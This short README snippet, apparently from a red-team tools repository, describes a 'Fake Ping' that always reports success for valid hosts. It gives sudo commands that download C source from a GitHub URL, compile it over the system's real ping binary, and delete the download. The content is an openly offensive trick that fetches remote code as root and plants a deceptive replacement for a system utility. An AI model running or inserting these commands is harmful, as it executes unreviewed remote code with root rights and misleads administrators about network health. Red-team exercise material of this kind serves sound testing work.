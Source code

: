 ## Fake Ping 

Can replace the real ping utility, the typical flags work.

This will always spoof successful results **for valid hosts** (all IP addresses, valid DNS addresses).

```
sudo wget "https://raw.githubusercontent.com/JackDunfey/Red-Team-Tools/refs/heads/main/ping/ping.c" -O "/tmp/ping.c"
sudo gcc /tmp/ping.c -o $(which ping)
sudo rm /tmp/ping.c
```
